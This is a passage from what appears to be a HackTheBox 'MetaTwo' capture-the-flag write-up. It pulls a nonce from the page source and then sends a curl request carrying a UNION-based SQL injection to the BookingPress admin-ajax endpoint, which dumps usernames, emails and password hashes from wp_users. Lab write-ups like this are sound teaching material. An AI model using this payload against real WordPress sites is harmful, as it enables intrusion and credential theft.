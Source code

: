 Because there is already an event we can skip the first two steps, and simply inspect the page source of `/events` for the wpnonce we'll need:

![htb_metatwo_nonce.png](../assets/metatwo_assets/htb_metatwo_nonce.png)

We can then follow the POC and view the version number:

![htb_metatwo_version.png](../assets/metatwo_assets/htb_metatwo_version.png)

Cool, let's now access the known wp_users table for WP dbs:

```
┌──(ryan㉿kali)-[~/HTB/MetaTwo]
└─$ curl 'http://metapress.htb/wp-admin/admin-ajax.php' \
  --data 'action=bookingpress_front_get_category_services&_wpnonce=398e4fd1fc&category_id=33&total_service=-7502) UNION ALL SELECT user_login,user_email,user_pass,NULL,NULL,NULL,NULL,NULL,NULL from wp_users-- -'
```
